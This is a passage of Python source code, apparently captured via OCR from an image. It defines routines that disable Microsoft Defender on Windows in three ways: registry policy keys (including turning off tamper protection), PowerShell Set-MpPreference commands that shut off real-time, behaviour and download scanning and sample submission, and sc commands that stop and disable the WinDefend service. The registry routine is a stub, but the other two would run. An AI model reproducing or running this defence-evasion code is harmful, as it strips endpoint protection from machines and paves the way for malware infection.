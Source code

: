 ```python
        except Exception as e:
            debug_print(f"❌ {name}: Error - {e}")
    
    return success_count >= 2  # Success if 2+ methods work

def disable_defender_registry():
    """Disable via registry modifications"""
    registry_keys = [
        (r'SOFTWARE\Policies\Microsoft\Windows Defender',
         'DisableAntiSpyware', 1),
        (r'SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection',
         'DisableBehaviorMonitoring', 1),
        (r'SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection',
         'DisableOnAccessProtection', 1),
        (r'SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection',
         'DisableScanOnRealtimeEnable', 1),
        (r'SOFTWARE\Microsoft\Windows Defender\Features',
         'TamperProtection', 0),
    ]
    
    for path, name, value in registry_keys:
        # Create/modify registry key
        pass
    
    return True

def disable_defender_powershell():
    """Disable via PowerShell commands"""
    commands = [
        'Set-MpPreference -DisableRealtimeMonitoring $true',
        'Set-MpPreference -DisableBehaviorMonitoring $true',
        'Set-MpPreference -DisableBlockAtFirstSeen $true',
        'Set-MpPreference -DisableIOAVProtection $true',
        'Set-MpPreference -MAPSReporting 0',
        'Set-MpPreference -SubmitSamplesConsent 2',
    ]
    
    for cmd in commands:
        subprocess.run(['powershell', '-Command', cmd], 
                        capture_output=True, timeout=10)
    
    return True

def disable_defender_service():
    """Stop and disable Defender service"""
    subprocess.run(['sc', 'stop', 'WinDefend'], 
                    capture_output=True)
    subprocess.run(['sc', 'config', 'WinDefend', 'start=', 'disabled'],
                    capture_output=True)
    return True
```
